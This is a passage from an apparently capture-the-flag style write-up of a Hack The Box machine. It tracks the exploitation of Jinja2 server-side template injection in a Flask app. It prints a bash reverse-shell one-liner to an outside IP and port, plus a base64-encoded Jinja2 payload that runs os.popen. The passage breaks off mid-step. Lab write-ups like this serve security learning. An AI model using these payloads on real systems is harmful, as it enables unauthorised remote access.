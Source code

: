 <div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126141853.png' | relative_url }}" text-align="center"/>
</div>


Then we are asked again about autentication but if we try again with the credentials admin:superadministrator we gain access:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126141947.png' | relative_url }}" text-align="center"/>
</div>

Exploring manually this new area we find some input fields but one notorius is the 'General Information' section on 'My Profile' because when we introduce data the outputs turns to be a template:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126142127.png' | relative_url }}" text-align="center"/>
</div>

Wappalyzer tell us that the framework that is being used is Flask, that use the well known template engine Jinja2.

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126142220.png' | relative_url }}" text-align="center"/>
</div>

So we get a request on BurpRepeater in order to Fuzz with some payloads until:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221126142431.png' | relative_url }}" text-align="center"/>
</div>

We find that indeed is vulnerable to SSTi. Thus, we are going now achieve a foothoold on the system by using the following bash reverse shell script:

```bash
bash -i >& /dev/tcp/10.10.16.9/4444 0>&1
```

However, we can't send it as raw because it contains some spaces so we have to encoded it with base64:

```bash
echo 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1' | base64
```

Then, we are going to use the following Jinja2 syntax command (decocde using: echo "codedstring" \| base64 \| tr -d '\n'):

```
c2VsZi5fVGVtcGxhdGVSZWZlcmVuY2VfX2NvbnRleHQubmFtZXNwYWNlLl9faW5pdF9fLl9fZ2xvYmFsc19fLm9zLnBvcGVuKCc8Q09NTUFORD4nKS5yZWFkKCkK
```

and with the base64 encoded payload this will stand as the following (decode using: echo "codedstring" \| base64 \| tr -d '\n'):
